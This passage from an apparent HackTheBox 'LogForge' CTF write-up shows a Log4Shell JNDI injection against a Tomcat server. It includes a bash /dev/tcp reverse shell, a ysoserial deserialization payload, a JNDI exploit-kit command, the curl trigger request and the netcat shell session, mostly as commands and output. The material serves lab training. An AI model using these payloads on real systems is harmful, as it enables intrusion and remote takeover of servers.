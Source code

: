 This confirms we can execute code remotely on the server. Let's get ourselves a reverse shell, using a simple one from PentestMonkey like we did on [Dynstr](https://pencer.io/ctf/ctf-htb-dynstr/#reverse-shell):

```text
bash -i >& /dev/tcp/10.10.14.12/1337 0>&1
```

Use YSOSerial to create our payload again:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar ysoserial-modified/target/ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.12/1337 0>&1' > shell.ser
```

Stop tcpdump and start netcat listening on port 1337. Stop JNDI exploit kit, and start it again with our new reverse shell payload:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar JNDI-Exploit-Kit/target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -P ysoserial-modified/target/shell.ser -L 10.10.14.12:389
```

Make a note of the new target URL:

```text
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/ry0f9s
ldap://10.10.14.12:389/ry0f9s
```

Use curl to trigger the exploit the same as we did before:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# curl "http://10.10.11.138/pencer/..;/manager/html/expire?path=/" --data-binary "idle=\${jndi:ldap://10.10.14.12:389/ry0f9s}" -H "Authorization: Basic dG9tY2F0OnRvbWNhdA=="
```

## Reverse Shell

If all goes well switch to the nc listener to see our shell connected:

```sh
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.138] 49842
bash: cannot set terminal process group (776): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ 
```

Before we carry on let's do the usual upgrading of the shell to make it easier to work in:

```text
tomcat@LogForge:/var/lib/tomcat9$ python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@LogForge:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
tomcat@LogForge:/var/lib/tomcat9$ stty rows 52 cols 237
tomcat@LogForge:/var/lib/tomcat9$ export TERM=xterm
```

